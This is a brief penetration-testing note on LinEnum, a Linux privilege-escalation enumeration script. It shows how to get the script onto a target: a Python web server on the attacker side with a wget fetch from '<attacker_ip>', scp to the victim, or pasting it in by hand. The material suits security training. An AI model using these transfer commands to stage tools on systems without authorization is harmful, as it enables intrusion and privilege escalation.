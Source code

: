 ```yaml
---
tags:
  - Penetration-Testing
  - Linux
  - PrivEsc
---
```

## LinEnum
- Simple bash script that performs common commands related to PrivEsc
### Download LinEnum
- https://github.com/rebootuser/LinEnum/blob/master/LinEnum.sh
### Getting LinEnum onto Target
Option 1: Python Web Server + wget
1. Navigate to directory where LinEnum is stored on attacker
2. Start Python Web Server on attacker
```bash
python -m http.server 8000
```

3. Use wget to dowload LinEnum from Python server
```bash
wget <attacker_ip>:8000/LinEnum.sh
```

Option 2: Secure Copy (scp)
**May require knowing SSH password**
1. Navigate to directory where LinEnum is stored on attacker
2. Execute Secure Copy to victim
```bash
scp LinEnum.sh username@victim_ip:/tmp/
```

Option 3: Copy/Paste into Victim
1. Copy/Paste LinEnum script into victim using nano or Vi
2. Make file executable (chmod +x)
